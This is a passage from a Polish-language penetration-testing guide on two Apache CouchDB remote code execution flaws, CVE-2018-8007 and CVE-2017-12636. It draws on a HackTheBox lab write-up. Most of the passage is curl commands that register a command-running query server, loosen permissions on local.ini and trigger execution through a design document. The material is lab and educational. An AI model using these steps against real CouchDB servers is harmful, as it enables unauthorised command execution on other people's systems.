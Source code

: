```bash
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```
To badania potwierdzają wykonalność eksploatacji CVE-2018-8007 w określonych warunkach, szczególnie wymaganie dostępu do zapisu do pliku `local.ini`. Podane przykłady kodu i kroki proceduralne oferują jasny przewodnik do powtórzenia eksploitu w kontrolowanym środowisku.

Aby uzyskać więcej informacji na temat CVE-2018-8007, zapoznaj się z komunikatem mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Badanie CVE-2017-12636 z uprawnieniami do zapisu na local.ini**

Przykład [stąd](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Zbadano podatność znaną jako CVE-2017-12636, która umożliwia wykonanie kodu za pośrednictwem procesu CouchDB, chociaż konkretne konfiguracje mogą uniemożliwić jej eksploatację. Pomimo licznych odniesień do Proof of Concept (POC) dostępnych w Internecie, konieczne są dostosowania, aby wykorzystać tę podatność w wersji CouchDB 2, różniącej się od powszechnie atakowanej wersji 1.x. Początkowe kroki obejmują weryfikację wersji CouchDB i potwierdzenie braku oczekiwanego ścieżki serwerów zapytań:
```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```
Aby dostosować się do wersji CouchDB 2.0, wykorzystuje się nową ścieżkę:
```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```
Próby dodania i wywołania nowego serwera zapytań spotkały się z błędami związanymi z uprawnieniami, co wskazuje następujący wynik:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Dalsze dochodzenie ujawniło problemy z uprawnieniami do pliku `local.ini`, który nie był zapisywalny. Poprzez modyfikację uprawnień pliku z dostępem root lub homer, stało się możliwe kontynuowanie:
```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```
Kolejne próby dodania serwera zapytań zakończyły się sukcesem, co potwierdza brak komunikatów o błędach w odpowiedzi. Sukces modyfikacji pliku `local.ini` został potwierdzony poprzez porównanie plików:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Proces kontynuował się od utworzenia bazy danych i dokumentu, a następnie próby wykonania kodu za pomocą niestandardowego widoku mapującego do nowo dodanego serwera zapytań:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```
Podsumowanie z alternatywnym ładunkiem dostarcza dalszych informacji na temat wykorzystania CVE-2017-12636 w określonych warunkach. Przydatne zasoby do wykorzystania tej podatności obejmują:

